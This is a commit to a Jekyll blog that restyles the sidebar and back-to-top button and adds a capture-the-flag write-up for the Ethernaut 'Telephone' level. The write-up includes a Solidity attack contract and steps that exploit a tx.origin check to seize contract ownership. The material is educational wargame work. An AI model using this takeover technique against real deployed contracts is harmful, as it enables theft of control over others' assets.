

Before and after one commit to weippig/weippig.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide, cut to the strip 0-906 px from the top of the page. Shown: the whole strip, without its empty margins (8-1029 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; some of the changed text lies outside the part shown.

Commit message:
add one post & modify scroll to top icon & code block

````diff
--- a/_includes/sidebar.html
+++ b/_includes/sidebar.html
@@ -16,8 +16,7 @@
       `layout: page` in the front-matter. See readme for usage.
     {% endcomment %}
 
-    <a class="sidebar-nav-item" href="https://self.id/did:3:kjzl6cwe1jw14bhtdgj2xi21x2z2sg6vmlig3rt6jijpedg72uyieetvdxibi95">About</a>
-    <a class="sidebar-nav-item" href="{{ site.leetcode }}">Leetcode</a>
+
 
     {% assign pages_list = site.pages | sort:"url" %}
     {% for node in pages_list %}
@@ -27,6 +26,7 @@
         {% endif %}
       {% endif %}
     {% endfor %}
+    <a class="sidebar-nav-item" href="{{ site.leetcode }}">Leetcode</a>
 <!--     <a class="sidebar-nav-item" href="{{ site.github.repo }}/archive/v{{ site.version }}.zip">Download</a> -->
     <!-- <a class="sidebar-nav-item" href="{{ site.github.repo }}" target="_blank">GitHub project</a> -->
     <span class="sidebar-nav-item">Currently v{{ site.version }}</span>
--- a/_layouts/default.html
+++ b/_layouts/default.html
@@ -4,6 +4,7 @@
   {% include head.html %}
 
   <body class="theme-base-0b">
+
 
     {% include sidebar.html %}
 
@@ -25,7 +26,21 @@
     </div>
 
     <label for="sidebar-checkbox" class="sidebar-toggle"></label>
-    <a class="back-to-top" href="#">Back to top</a>
+    <!-- <a class="back-to-top" href="#">Back to top</a> -->
+    <a class="back-to-top" href="#">
+      <div style=
+      "background-color: rgb(144, 174, 144);
+      width: 40px;
+      height: 40px;
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      border-radius: 50%;
+      " >
+        {%- include svg/arrow-top-icon.svg -%}
+      </div>
+    </a>
+
 
     <script src='{{ site.baseurl }}/public/js/script.js'></script>
   </body>
--- /dev/null
+++ b/_posts/2022-08-27-ethernaut-4-telephone.md
@@ -0,0 +1,60 @@
+---
+layout: post
+title: Ethernaut - 4.Telephone
+date:  2022-08-27
+tags: ethernaut
+---
+
+### Difficulty: 🌕🌑🌑🌑🌑
+### Contract
+``` solidity
+// SPDX-License-Identifier: MIT
+pragma solidity ^0.6.0;
+
+contract Telephone {
+
+  address public owner;
+
+  constructor() public {
+    owner = msg.sender;
+  }
+
+  function changeOwner(address _owner) public {
+    if (tx.origin != msg.sender) {
+      owner = _owner;
+    }
+  }
+}
+```
+
+### Writeup
+To complete this level, we need to claim ownership of the contract.
+The keypoint is the difference between` tx.origin` and `msg.sender`.
+
+![](https://i.imgur.com/ktsMFfo.png)
+1. Get new instance
+2. Create a contract
+    ``` solidity
+    // SPDX-License-Identifier: MIT
+    pragma solidity ^0.6.0;
+
+    interface Telephone {
+        function changeOwner(address _owner) external;
+    }
+
+    contract AttackTelephone {
+        Telephone public targets = Telephone(YOUR_LEVEL_INSTANCE_ADDRESS);
+
+        function attackTelephone() public{
+            targets.changeOwner(YOUR_ACCOUNT);
+        }
+    }
+    ```
+3. Compile & deploy
+4. Call attackTelephone function. In this scenario, `tx.origin` will be the victim's address while `msg.sender` will be the malicious contract( AttackTelephone )'s address.( `tx.origin != msg.sender` == `true` )
+5. `await contract.owner().then(v => v.toString())` to check owner if it is your account.
+6. Submit instance ξ( ✿＞◡❛)
+
+
+### Reference
+[tx.origin vs msg.sender](https://davidkathoh.medium.com/tx-origin-vs-msg-sender-93db7f234cb9)
--- a/public/css/lanyon.css
+++ b/public/css/lanyon.css
@@ -634,3 +634,10 @@
   opacity: 0;
   pointer-events: none;
 }
+
+/* CSS Simple Pre Code */
+pre {
+  white-space: pre;
+  word-wrap: break-word;
+  overflow: auto;
+}
````
Also changed, not shown: About.md (added, +9 -0 lines), _posts/2022-08-24-ethernaut-2-fallout.md (renamed from _posts/2022-08-24-ethernaut-fallout.md, +1 -1 lines), _includes/svg/arrow-top-icon.svg (added), _includes/svg/github.svg, public/js/script.js (line endings or trailing spaces).
